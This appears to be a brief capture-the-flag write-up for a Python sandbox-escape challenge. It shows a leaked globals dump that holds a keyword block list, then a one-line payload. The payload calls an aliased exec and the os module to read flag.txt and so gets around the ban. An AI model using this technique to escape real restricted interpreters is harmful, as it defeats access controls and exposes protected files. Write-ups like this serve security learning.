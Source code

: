 From level 1, we have:

> Word of advice,remember this:weYbdk9012ghiwh=0?

Entering `weYbdk9012ghiwh=0?` as the helpline id in `3. Use helpline` gives:

```py
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f72267e4f10>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/endgame.py', '__cached__': None, 'banned': ['import', <built-in function print>, <built-in function exec>, <built-in function eval>, 'read', <built-in function open>, <built-in function globals>], 'sos': <module 'os' from '/usr/lib/python3.8/os.py'>, 'beat_the_master': <built-in function exec>, 'main': <function main at 0x7f72266dde50>, 'escape': <function escape at 0x7f72266ddee0>}
```

This, then, gets the flag:

```py
beat_the_master('print(sos.read(sos.open("./flag.txt", sos.O_RDONLY), 100))')
```

(I lost my original payload, but it was a little simpler than this one.)
